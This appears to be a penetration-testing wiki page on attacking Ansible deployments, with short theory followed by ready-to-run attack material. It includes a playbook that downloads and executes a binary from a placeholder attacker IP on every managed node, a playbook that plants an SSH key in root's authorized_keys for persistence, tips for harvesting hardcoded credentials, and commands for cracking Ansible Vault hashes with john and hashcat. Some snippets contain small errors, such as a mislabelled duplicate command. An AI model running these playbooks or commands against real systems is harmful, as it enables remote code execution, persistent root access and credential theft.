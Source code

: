 # Ansible Pentesting

## Theory

[Ansible](https://docs.ansible.com/) is a powerful configuration management and automation tool widely used in DevOps to manage servers and deploy applications. However, its design and features can also make it a potential attack vector if improperly configured or abused.

Ansible operates on a "push" model, where the Ansible controller executes Modules on registered "nodes". Key components include:

* **Inventory**: A list of managed nodes (targets), located on the controller server at `/etc/ansible/hosts`
* **Playbooks**: YAML files that define tasks and automation processes.
* **Modules**: Scripts used to perform specific actions (e.g., file operations, command execution).

In order to perform actions on managed nodes, a password for a node user must be stored on the controller, or the controller's Ansible account must be configured on it using SSH keys. This allows the controller to connect to the node and execute the desired modules.

## Practice

### Command Execution

{% hint style="danger" %}
The following methods are utilized from the Ansible Controller, requiring a user with the necessary privileges.
{% endhint %}

{% tabs %}
{% tab title="Ad-hoc Commands" %}
[Ad-hoc commands](https://docs.ansible.com/ansible/latest/command\_guide/intro\_adhoc.html) are simple shell commands to be run on one or more managed nodes in the Ansible inventory. They are used for one-time tasks and are not included in a playbook.

```bash
# On Ansible Controller
## Simply run
ansible target-hosts -a "whoami" --become

## Run as sudo
ansible target-hosts -a "whoami" --become
```
{% endtab %}

{% tab title="Playbooks" %}
[Ansible Playbooks](https://docs.ansible.com/ansible/latest/playbook\_guide/playbooks\_intro.html) offer a repeatable, reusable way to run a sets of tasks on Ansible nodes. Playbooks are expressed in YAML format.

We can use Playbooks to execute a malicious script/binary on Ansible nodes.&#x20;

{% hint style="info" %}
The `hosts` field specifies the target hosts from the inventory on which the playbook will be executed. You can use:

* **Groups**: Specify a group of hosts defined in the inventory file.
* **Individual Hosts**: Target specific hosts by their names.
* **All**: Use "all" to run the playbook on every host listed in the inventory
{% endhint %}

#### Simple Execution

{% code title="evil.yml" %}
```yaml
- hosts: all
  tasks:
  become: yes # Delete this line if playbook should not be run as root
  - name: evil
    shell: "curl -o /tmp/evil.elf http://<ATTACKING_IP>/evil.elf && chmod +x /tmp/evil.elf && /tmp/evil.elf"
    async: 10
    poll: 0
```
{% endcode %}

Run the playbook:

```bash
ansible-playbook evil.yml
```

#### SSH Persistence

The following playbook acheive SSH persistence by adding a public key to the `/root/.ssh/authorized_keys` file

```yaml
---
- name: Add SSH key for persistence
  hosts: target_hosts
  become: yes
  tasks:
    - name: Ensure the .ssh directory exists
      file:
        path: /root/.ssh
        state: directory
        mode: '0700'
        owner: root
        group: root
        
    - name: Create authorized keys if it does not exist
      file:
        path: /root/.ssh/authorized_keys
        state: touch
        mode: '0600'
        owner: root
        group: root
      
    - name: Add SSH public key for persistence
      authorized_key:
        user: root
        state: present
        key: "ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEAr...your_key_here... user@hostname"  # Replace with your actual SSH public key

    - name: Ensure SSH service is enabled and running
      service:
        name: sshd
        state: started
        enabled: yes
```
{% endtab %}
{% endtabs %}

### Credential Access <a href="#exploit-title" id="exploit-title"></a>

if we are able to read Ansible playbooks, we may found sensitive data like secrets and hardcoded credentials.

{% tabs %}
{% tab title="Playbook Secrets" %}
We may find hardcoded credential in playbooks alongside the `become` directive, as it may allows Administratror to use SSH whithout keys.

```yaml
- hosts: all
  become: yes
  become_user: root
  vars:
    db_user: "admin"
    db_password: "password123"
```

Alternatively we may directly find hardcoded credentials in shell commands

```yaml
- name: MySQL_SHOW_DB
  hosts: target_servers
  become: yes
  tasks:
    - name: get db
      shell: |
        echo "Connecting to the database..."
        mysql -u admin -p'password123' -e "SHOW DATABASES;"
```
{% endtab %}

{% tab title="Vault Secrets" %}
[Ansible Vault ](https://docs.ansible.com/ansible/latest/vault\_guide/index.html)is a feature that allows users to encrypt sensitive data within playbooks. However, we may be able to decrypt the file with password or by cracking hash to retrieve password.

First check the file encrypted with Ansible Vault.

```bash
cat example.yml

# -- output --
$ANSIBLE_VAULT;1.1;AES256
62313365396662343061393464336163383764373764613633653634306231386433626436623361
6134333665353966363534333632666535333761666131620a663537646436643839616531643561
63396265333966386166373632626539326166353965363262633030333630313338646335303630
3438626666666137650a353638643435666633633964366338633066623234616432373231333331
6564
```

We can use **`ansible2john`** to generate the hash to make it crackable.

```bash
ansible2john example.yml > hash.txt
```

Then crack this hash using **John The Ripper** or **Hashcat**.

```bash
john --wordlist=wordlist.txt hash.txt
# or
hashcat -a 0 -m 16900 hash.txt wordlist.txt
```

After cracking and retrieving the passwrod, we can use it to decrypt the file as below.

```bash
ansible-vault decrypt example.yml --output decrypted.txt
```
{% endtab %}

{% tab title="Ansible Modules" %}

{% endtab %}
{% endtabs %}

### Weak Playbooks Permissions

If we discover a playbook on the controller on which we have write permissions, or if we can leverage a vulnerability to obtain write access, we can insert a malicious tasks that will be executed during the next run of the playbook.



## Resources

{% embed url="https://exploit-notes.hdks.org/exploit/cryptography/algorithm/ansible-vault-secret/" %}
